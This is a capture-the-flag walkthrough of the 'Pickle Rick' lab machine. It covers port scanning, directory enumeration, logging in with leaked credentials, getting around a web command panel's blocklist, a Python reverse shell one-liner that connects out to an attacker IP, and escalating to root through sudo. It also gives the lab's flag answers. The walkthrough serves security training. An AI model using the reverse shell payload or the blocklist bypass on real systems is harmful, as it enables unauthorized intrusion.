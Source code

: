 # Pickle Rick



## Port Scanning

```bash
nmap -T4 -sV -p- --min-rate 1000 --open 10.10.55.99 -oN port_scan.txt          

Nmap scan report for 10.10.55.99
Host is up (0.035s latency).
Not shown: 65524 closed tcp ports (reset), 9 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



## Web Enumeration

<figure><img src="../../../.gitbook/assets/image (290).png" alt=""><figcaption></figcaption></figure>

First and foremost, intercept the web requests with Burp Suite to analyze if there is anything unusual.

<figure><img src="../../../.gitbook/assets/image (291).png" alt=""><figcaption></figcaption></figure>

We can see a comment with a user.

```
Username: R1ckRul3s
```



### Dir/File Enum

Check if there is some juicy file using gobuster tool.

{% code title="Directories" overflow="wrap" %}
```bash
gobuster dir -u http://10.10.55.99/ -w /usr/share/wordlists/SecLists_custom/raft-large-directories.txt -b 403,404

/assets               (Status: 301) [Size: 311] [--> http://10.10.55.99/assets/]
```
{% endcode %}

{% code title="Files" overflow="wrap" %}
```bash
gobuster dir -u http://10.10.55.99/ -w /usr/share/wordlists/SecLists_custom/raft-large-files.txt -b 403,404

/login.php            (Status: 200) [Size: 882]
/index.html           (Status: 200) [Size: 1062]
/robots.txt           (Status: 200) [Size: 17]
/.                    (Status: 200) [Size: 1062]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]

```
{% endcode %}

We have discovered the robots.txt that contain this string:

```
Wubbalubbadubdub
```

And a `login.php` page.

Try to login with user and possible password in robots.txt found.

<figure><img src="../../../.gitbook/assets/image (292).png" alt=""><figcaption></figcaption></figure>

We are in!



## Initial Access

Now, we have a Command Panel that allow us to execute some command to Web Server machine.

<figure><img src="../../../.gitbook/assets/image (293).png" alt=""><figcaption></figcaption></figure>

`ls` command works but when we will trying to print a file with `cat` command the portal gives me a error contains "Command disable".

This error suggests us that there is a Black List of commands. We have to search an alternative to print a file, the command `less` can help us.

<figure><img src="../../../.gitbook/assets/image (294).png" alt=""><figcaption></figcaption></figure>

This command bypasses the Black List to read a file.

{% code title="flag1" %}
```
mr. meeseek hair
```
{% endcode %}



### Spawn Rev Shell

Making this request we can obtain a reverse shell

{% code title="Payload" overflow="wrap" %}
```python
export RHOST="10.23.52.142";export RPORT=9009;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



We can found a second flag in the rick's home directory

```bash
cd /home/rick
cat 'second ingredients'

1 jerry tear
```



## Privilege Escalation

Run `linpeass.sh` to find misconfiguration.

```bash
sudo -l

User www-data may run the following commands on ip-10-10-255-84:
    (ALL) NOPASSWD: ALL
```

With this rights we can access as root in easy way

```bash
sudo su
```

And print the last flag

```bash
cat /root/3rd.txt

3rd ingredients: fleeb juice
```



